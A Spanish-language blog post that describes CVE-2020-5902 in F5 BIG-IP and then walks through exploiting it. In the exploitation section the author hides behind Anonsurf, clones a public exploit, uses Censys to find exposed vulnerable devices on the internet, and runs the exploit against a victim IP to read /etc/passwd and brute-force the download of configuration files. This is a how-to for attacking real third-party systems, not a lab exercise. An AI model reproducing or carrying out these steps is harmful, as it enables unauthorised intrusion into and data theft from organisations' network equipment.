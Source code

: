 ```yaml
---
layout: single
title: Explotación de CVE-2020-5902 - Vulnerabilidades
excerpt: "Una vulnerabilidad de ejecución remota de código de proxy/equilibrador de carga F5 BIG-IP® 8."
date: 2020-10-28
classes: wide
header:
  teaser: /assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png
  teaser_home_page: true
  icon: /assets/images/f5.webp
categories:
  - Vulnerabilidades
 
tags:  
  - cve-2020-5902
  - f5
  - rce
  - censys
  
---
```


![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-5902.png)

## Descripción:

BIG-IP es un dispositivo de red multipropósito muy popular que es utilizado por una gran cantidad de compañías que manejan información sensible a lo largo del mundo. Los dispositivos BIG-IP son utilizados tanto en redes gubernamentales y de proveedores de servicios de Internet (ISPs), así como por bancos a lo largo del mundo y muchas redes empresariales. Según explica F5 en su sitio web, este producto es utilizado por 48 compañías que integran la lista Fortune 50. De hecho, dada la criticidad de la vulnerabilidad y su potencial impacto, el Cibercomando de Estados Unidos replicó la advertencia emitida por la compañía y llamó a instalar el parche que repara el fallo lo antes posible.

CVE-2020-5902 es una vulnerabilidad crítica en la interfaz de usuario de administración de tráfico BIG-IP (TMUI) también conocida como la utilidad de configuración. La vulnerabilidad recibió una calificación CVSSv3 de 10.0, la puntuación más alta posible. La vulnerabilidad se puede explotar cuando el acceso de red a la TMUI se expone a través del puerto de administración BIG-IP o las IP automáticas. La explotación exitosa de este defecto concedería a un atacante una variedad de privilegios, incluyendo la capacidad de ejecutar comandos arbitrarios del sistema o código Java, crear o eliminar archivos, así como deshabilitar los servicios en el host vulnerable. El asesor afirma que la vulnerabilidad también podría "resultar en un compromiso completo del sistema".

## Productos Afectados:

BIG-IP (LTM, AAM, WAF avanzado, AFM, análisis, APM, ASM, DDHD, DNS, FPS, GTM, controlador de enlace, PEM, SSLO, CGNAT), Rma 11x, 12x, 13x, 14x, 15x, 16x., versiones 11.6.1 - 11.6.5, 12.1.0-12.1.5,13.1.0-13.1.3,14.1.0-14.1.2,15.1.0 - 15.0.1.


## Explotación:

Para esta explotaciòn vamos a utilizar una maquina con sistema operativo Kali Linux. Como primera medida vamos a iniciar el anunsurf para manejar el anonimato

•	Anonsurf start

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59022.png)

Procedemos a clonar el paquete de Git Hub con el exploit de la vulnerabilidad.

•	git clone https://github.com/yasserjanah/CVE-2020-5902

Ingresamos al directorio descargado

•	cd CVE-2020-5902/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59023.png)

Realizamos la siguiente instalación dentro del directorio.

•	pip3 install -r ./requirements.txt

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59024.png)

Realizamos la búsqueda de un equipo vulnerable en la página de Censys con la vulnerabilidad “BIG-IP & reg”.

•	https://censys.io/

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59025.png)

Ejecutamos el exploit con extensión .py que está dentro del directorio.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -f /etc/passwd

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59026.png)

Usamos -b para archivos de fuerza bruta de una lista de palabras.

•	python3 exploit-CVE-2020-5902.py -ip <IP VICTIMA> -b

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59027.png)

Al finalizar el comando, nos dirigimos en donde se almacenan los resultados del exploit y podremos observar cómo descarga los archivos de las diferentes configuraciones del dispositivo.

![](/assets/images/vulnerabilidades/cve-2020-5902/cve-2020-59028.png)


## Referencias:

•	https://www.welivesecurity.com/la-es/2020/07/06/estan-explotando-vulnerabilidad-critica- dispositivos-big-ip-f5/

•	https://support.f5.com/csp/article/K52145254?sf235665517=1 

•	https://urlscan.io/result/5fd0c2b2-9749-46b7-8d28-3550059123db/#summary 

•	https://nvd.nist.gov/vuln/detail/CVE-2020-5902 

•	https://github.com/yasserjanah/CVE-2020-5902

•	https://censys.io/ipv4?q=BIG-IP+%26+reg
